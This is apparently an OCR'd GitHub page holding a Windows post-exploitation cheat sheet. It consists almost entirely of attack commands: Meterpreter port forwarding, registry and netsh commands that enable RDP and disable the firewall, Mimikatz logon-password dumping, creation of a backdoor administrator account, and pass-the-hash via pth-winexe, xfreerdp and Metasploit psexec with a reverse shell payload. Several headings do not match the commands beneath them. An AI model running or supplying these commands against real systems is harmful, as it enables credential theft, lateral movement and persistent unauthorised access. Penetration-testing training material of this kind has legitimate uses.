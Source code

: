 ### Meterpreter portfwd

```
# https://www.offensive-security.com/metasploit-unleashed/portfwd/
# forward remote port to local address
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
```

### Enable RDP Access

```
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

### Turn Off Windows Firewall

```
netsh firewall set opmode disable
```

### Meterpreter VNC\RDP

```
git clone https://github.com/gentilkiwi/mimikatz.git
privilege::debug
sekurlsa::logonPasswords full
```

### Mimikatz use

```
net user test 1234 /add
net localgroup administrators test /add
```

### Passing the Hash

```
git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash //IP cmd

or

apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

or

meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
```
